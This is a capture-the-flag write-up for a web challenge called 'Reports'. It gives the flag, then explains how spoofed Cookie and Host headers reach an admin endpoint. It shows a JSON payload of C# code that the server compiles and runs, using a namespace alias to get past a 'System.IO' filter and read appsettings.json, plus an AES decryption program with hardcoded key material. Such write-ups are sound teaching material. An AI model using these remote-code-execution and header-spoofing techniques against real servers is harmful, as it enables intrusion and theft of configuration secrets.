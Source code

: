 # 🔥 Reports 🔥
Author: iLoop

Flag: `EPT{Th3r3Ar3Som3FunThingswithTh3RoslynCompiler}`
## Description
```
Once again, the development team of EPT has made a revolutionary website. 
This time, we needed to create some reports to keep track of things.

As always, we only use the latest and greatest programming languages. 
However, I'm not sure if everything has been done correctly. 
It seems that there are some broken parts in the code, but unfortunately, I'm unable to fix the errors :-(

On the other hand, I don't really care since everything works on my machine. 
There might be a prize for the special one who is able to navigate this piece of spaghetti code and find the path to nirvana.
```

## Provided challenge files
* [WebSite.tar.gz](WebSite.tar.gz)

## Writeup

Writeup
Introduction
The reports application generates a report by executing the code found in the "Reports" table in the database. This opens up for an opportunity to execute a RCE exploit.

Exploitation
The /api/Data endpoint allows users with the Admin role originating from a set of defined hostnames to add new reports to the database.

To gain access to this endpoint, two headers must be set:
Cookie: Role=Admin
Host: localhost

The next step is to craft a payload to retrieve the flag. However, there is a restriction: the code must not contain System.IO. To circumvent this limitation, we can alias System as another name, for example: using S = System;.

The final payload can be crafted as such:

```
{
    "id": "1001",
    "name": "Shit2",
    "code": "using System;\nusing System.Data;\nusing System.Data.Common;\nusing Microsoft.Data.Sqlite;\nusing System.Text;\nusing Microsoft.EntityFrameworkCore.ValueGeneration.Internal;\nusing Microsoft.EntityFrameworkCore;\nusing S = System;\nusing WebSite.Models;\nusing System.Collections;\nusing System.Collections.Generic;\n\nnamespace WebSite.Models\n{\n    class ReportTableModelData\n    {\n        public ReportDataModel CreateModel(string conection)\n        {\n            var flag = S.IO.File.ReadAllText(\"appsettings.json\");\n       var data = new ReportDataModel();\n            data.Headers.Add(\"Shit\");\n            \n              var row = new List<string>();\n              row.Add(flag);\n              data.Data.Add(row);\n\n            return data;\n        }\n\n        \n    }\n}\n"
}
```

This payload can then be sent to the Data endpoint. This must be repeated for appsettings.json too. After retrieving the ciphertext and the AES parameters, we can use the following code to decrypt: 

```
using System;
using System.IO;
using System.Security.Cryptography;

    class Program
    {
         static string GetFlag() {
            var key =  System.Convert.FromBase64String("+m/PvlP8q2qteBXh1DPBNBcqflqsIsmcxA1WP0AP+tg=");
            var IV =  System.Convert.FromBase64String("wdNJlxKPtwfxcTw+oYJSOQ==");
            var encrypted_flag =  System.Convert.FromBase64String("BkGxf0oAV5YHjUE3zUQ+Ri07oz3r+fB9l6MArFkm7HF2D4yWA55CMPywL9TSeAu1");

            var flag =DecryptStringFromBytes_Aes(encrypted_flag, key, IV);
            return flag;

         }
         static string DecryptStringFromBytes_Aes(byte[] cipherText, byte[] Key, byte[] IV)
        {
            // Check arguments.
            if (cipherText == null || cipherText.Length <= 0)
                throw new ArgumentNullException("cipherText");
            if (Key == null || Key.Length <= 0)
                throw new ArgumentNullException("Key");
            if (IV == null || IV.Length <= 0)
                throw new ArgumentNullException("IV");

            // Declare the string used to hold
            // the decrypted text.
            string plaintext = null;

            // Create an Aes object
            // with the specified key and IV.
            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = Key;
                aesAlg.IV = IV;

                // Create a decryptor to perform the stream transform.
                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                // Create the streams used for decryption.
                using (MemoryStream msDecrypt = new MemoryStream(cipherText))
                {
                    using (CryptoStream csDecrypt = new CryptoStream(msDecrypt, decryptor, CryptoStreamMode.Read))
                    {
                        using (StreamReader srDecrypt = new StreamReader(csDecrypt))
                        {

                            // Read the decrypted bytes from the decrypting stream
                            // and place them in a string.
                            plaintext = srDecrypt.ReadToEnd();
                        }
                    }
                }
            }

            return plaintext;
        }
    
        static void Main(string[] args)
        {
          Console.WriteLine(Program.GetFlag());
        }
    }
```